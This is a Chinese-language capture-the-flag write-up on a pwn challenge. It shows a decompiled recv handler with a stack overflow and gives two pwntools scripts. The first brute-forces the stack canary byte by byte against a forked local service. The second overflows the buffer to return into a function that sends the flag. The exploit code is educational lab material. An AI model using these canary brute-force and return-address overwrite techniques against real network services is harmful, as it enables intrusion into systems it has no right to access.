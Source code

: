 # Canary的碎碎念
#0blog


![](Readme/66A1B19F-9950-40D7-A69C-0EB96BB03829.png)

```c
signed __int64 sub_400BE9()
{
  signed __int64 result; // rax
  char s; // [rsp+10h] [rbp-70h]
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("csfd = %d\n", (unsigned int)fd);
  bzero(&s, 0x64uLL);
  if ( (unsigned int)recv(fd, &s, 0x400uLL, 0) == -1 )
  {
    perror("recv");
    result = 0xFFFFFFFFLL;
  }
  else
  {
    printf("Message come: %s", &s);
    fflush(stdout);
    result = 0LL;
  }
  return result;
}
```

有个小溢出，看一下缓冲区的首地址位于[rbp-70h]，此时栈上的布局是Canary—RBP—RET。

缓冲区溢出出现在fork出来的线程中，所以就可以通过爆破的手段来得到Canary，然后就可以构造ROP。这道题开始时已经读取了flag文件`read(fd, &unk_602160, 0x64uLL);`，而且还有一个send函数可以发送flag。

```c
ssize_t sub_400BC6()
{
  return send(fd, &unk_602160, 0x64uLL, 0);
}
```

那就简单多了，所以这题的考点还是爆破Canary。Payload就是：`Padding+Canary+0xDEADBEEF+p64(0x400BC6)`。

那么问题来了，如何爆破Canary，最低位的byte一定是`\x00`，好，可以写爆破脚本了。

```python
from pwn import *
def crack_canary():
    canary = "\x00"
    while True:
        if len(canary) == 8:
            break
        for item in range(0xff):
            canary_tmp = canary + chr(item)
            try:
                r = remote('127.0.0.1',5555)
                r.recvuntil("Welcome!\n")
                payload = "A"*(0x70-8)
                payload += canary_tmp
                r.send(payload)
                data = r.recv(100,timeout=1)
                if "Message received!" in data:
                    canary += chr(item)
                    log.info("get:{0}".format(hex(item)))
                    break
                r.close()
            except:
                continue
    log.info("[*] canary:{0}".format(hex(u64(canary))))
    return canary
```


![](Readme/BBE63126-8610-49D9-87FC-ED9A995F6786.png)

拿到Canary后就可以读flag了。
```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

def main():
    canary = 0x9f6b51e88c534100
    payload = "a" *(0x70-0x8) + p64(canary) + "aaaaaaaa"+p64(0x0000000000400BC6)
    r = remote('127.0.0.1', 5555)
    r.recvuntil("Welcome!\n")
    r.send(payload)
    print r.recvline(1024,timeout=0.5)
    r.close()
if __name__ == '__main__':
    main()
```